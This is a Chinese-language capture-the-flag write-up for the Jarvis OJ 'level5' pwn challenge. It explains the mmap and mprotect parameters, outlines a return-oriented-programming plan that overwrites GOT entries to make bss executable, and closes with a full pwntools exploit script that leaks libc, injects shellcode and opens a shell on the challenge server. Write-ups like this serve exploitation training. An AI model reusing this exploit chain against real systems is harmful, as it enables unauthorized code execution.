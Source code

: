 # write up 0718

## [XMAN]level5

从上周六开始看的一道题，很抱歉鸽了几天，我实在是太菜了

### 分析：

这道题本来难度并不大，文件与level3_x64相同，但是这题的要求是假设``system``函数和``execve``函数被禁用，用``mmap()``和``mprotect()``函数完成

### mmap

```c
void *mmap( void *start , size_t length , int prot , int flags , int fd , off_t offsize)
```

参数start：

- 指向欲映像的内存起始地址，通常设为NULL，代表让系统自动标明地址，映像成功后返回该地址。

参数length：

- 代表将文件中多大的部分映像到内存。

参数prot：映像区域的保护方式。可以为以下几种方式的组合：

- PROT_EXEC映像区域可被执行
- PROT_READ映像区域可被读取
- PROT_WRITE映像区域可被写入
- PROT_NONE映像区域不能存取

参数flags：影响映像区域的各种特性。在调用mmap（）时必须要指定MAP_SHARED或MAP_PRIVATE。

- MAP_FIXED：如果参数start所指的地址无法成功建立映像时，则放弃映像，不对地址做修正。通常不鼓励用此旗标。
- MAP_SHARED：对映像区域的写入数据会复制回文件内，而且允许其他映像该文件的进程共享，原来的文件会改变。
- MAP_PRIVATE：对映像区域的写入操作会产生一个映像文件的复制，即私人的“写入时复制”（copy on write）对此区域作的任何修改都不会写回原来的文件内容。当共享的对象的虚拟存储区域为私有对象时，修改只会被本进程中改变。*（学的操作系统终于派上用场了）*
- MAP_ANONYMOUS：建立匿名映像。此时会忽略参数fd，不涉及文件，而且映像区域无法和其他进程共享。
- MAP_DENYWRITE：只允许对映像区域的写入操作，其他对文件直接写入的操作将会被拒绝。
- MAP_LOCKED：将映像区域锁定住，这表示该区域不会被置换（swap）。
  参数fd：
- 要映像到内存中的文件描述符。如果使用匿名内存映像时，即flags中设置了MAP_ANONYMOUS，fd设为-1。有些系统不支持匿名内存映像，则可以使用fopen打开/dev/zero文件，然后对该文件进行映像，可以同样达到匿名内存映像的效果。
  参数offset：
- 文件映像的偏移量，通常设置为0，代表从文件最前方开始对应，offset必须是分页大小的整数倍。

返回值：

- 若映像成功则返回映像区的内存起始地址，否则返回MAP_FAILED（－1），错误原因存于errno中。

### mprotect

```c
int mprotect(const void *start, size_t len, int prot);
```

在Linux中，``mprotect()``函数可以用来修改一段指定内存区域的保护属性。
``mprotect()``函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值,就是常见的0x111对应执行，写，读权限

``mmap()``的参数过多，跟着网上的wp用``mprotect()``完成了这一题

``mprotect()``有三个参数，这里需要使用到``__libc_csu_init``结尾的``gadget``来进行传参

### 思路：

首先与level3_x64相同，通过泄露libc地址得到``mprotect()``的地址

接着将``mprotect()``和bss段写入got表中

然后把shellcode写入bss段

最后调用``mprotect()``函数，修改bss段的权限并返回到bss段运行shellcode

### 问题：

一开始准备使用got表中数值为0的地址，失败多次之后改用``__libc_start_main``的got表位

另外，不知道为什么要用pause()，好像是要维持线程

还有，这题的shellcode需要调整参数，一开始没有注意到一直出错

### exp:

```python
from pwn import *

context(log_level = 'debug',os = 'linux',arch = 'amd64')

#n = process('./level5')
n = remote('pwn2.jarvisoj.com', 9884)
#n = remote("localhost",12345)

elf = ELF('./level5')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('./libc-2.19.so')

offset = 0x88

read_got = elf.got['read']
read_plt = elf.symbols['read']
write_plt = elf.symbols['write']
main_addr = elf.symbols['main']
bss_addr = elf.bss()
shellcode = asm(shellcraft.amd64.sh())

pop_rdi_ret_addr = 0x00000000004006b3
pop_rsi_pop_r15_ret_addr = 0x00000000004006b1

payload1 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(1) + p64(pop_rsi_pop_r15_ret_addr) +  p64(read_got) + 'deadbuff' + p64(write_plt) + p64(main_addr)

n.recvuntil("Input:\n")
n.send(payload1)
sleep(0.2)
pause()
read_addr = u64(n.recv(8))

libc.address = read_addr - libc.symbols['read']

mprotect_addr = libc.symbols['mprotect']
print 'mprotect_addr = ' + hex(mprotect_addr)

#write the mprotect to got table
libc_start_main_got = elf.got['__libc_start_main']
payload2 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_pop_r15_ret_addr) + p64(libc_start_main_got) + 'deadbuff' + p64(read_plt) + p64(main_addr)

n.send(payload2)
sleep(0.2)
n.send(p64(mprotect_addr))
sleep(0.2)
pause()

#write the shellcode to bss
payload3 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_pop_r15_ret_addr) + p64(bss_addr) + 'deadbuff' + p64(read_plt) + p64(main_addr)

n.send(payload3)
sleep(0.2)
n.send(shellcode)
sleep(0.2)
pause()

#write the bss to got table
gmon_start_got = elf.got['__gmon_start__']
payload4 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_pop_r15_ret_addr) + p64(gmon_start_got) + 'deadbuff' + p64(read_plt) + p64(main_addr)

n.send(payload4)
sleep(0.2)
n.send(p64(bss_addr))
sleep(0.2)
pause()

csu_start = 0x4006AA
csu_end = 0x400690

payload5 = 'a' * offset + p64(csu_start) + p64(0) + p64(1) + p64(libc_start_main_got) + p64(7) + p64(0x1000) + p64(0x600000) + p64(csu_end)
payload5 += 'deadbuff' + p64(0) + p64(1) + p64(gmon_start_got) + p64(0) +p64(0) + p64(0) + p64(csu_end)
n.send(payload5)
sleep(0.2)
pause()

n.interactive()
```

